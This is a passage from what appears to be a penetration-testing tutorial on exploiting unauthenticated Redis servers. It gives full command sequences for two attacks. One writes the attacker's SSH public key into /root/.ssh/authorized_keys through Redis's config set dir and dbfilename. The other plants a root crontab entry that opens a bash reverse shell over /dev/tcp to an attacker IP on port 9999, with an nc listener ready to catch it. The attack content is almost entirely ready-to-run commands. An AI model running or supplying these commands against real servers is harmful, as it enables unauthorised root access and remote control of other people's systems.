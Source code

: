 
 - Generate `ssh` public key`key` in the attack machine's `/root/.ssh` directory:
```bash
# Generate rsa key
ssh-keygen -t rsa
```

 - Import the public key into the `key.txt` file (use `\n` line wrap before and after to avoid mixing with other cache data in `Redis`), and then write the `key.txt` file content into the `Redis` buffer on the server:

```bash
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > /root/.ssh/key.txt
cat /root/.ssh/key.txt | redis-cli -h 192.168.249.145 -x set xxx // -x represents reading data from standard input as the last parameter of the command.
```

 - Use the attack machine to connect to the target machine `Redis`, set the backup path of `Redis` to `/root/.ssh`, save the file name `authorized_keys`, and save the data on the target server hard disk:

```bash
redis-cli -h 192.168.249.145
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```

 - Use the attack machine `ssh` to connect to the target victim machine:

```bash
ssh 192.168.249.145
```

<div align=center><img src="./images/10.png"></div>

### Write scheduled tasks with Redis
Utilization principle:
 - Insert a data into the database, take the content of the planned task as the `value` and `key` value at will. Then, by modifying the default path of the database to the path of the planned task of the target host, save the buffered data in a file, so that a planned task can be successfully written to the server side and rebounded `shell`.

Operation steps:
 - Turn on monitoring on the attack aircraft first:

```bash
nc -lnvvp 9999
```

 - Connect the `Redis` of the server, write the planned task of rebounding `shell`:

```bash
redis-cli -h 192.168.249.145
set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.249.143/9999 0>&1\n\n"
config set dir /var/spool/cron/crontabs/
config set dbfilename root
save
```
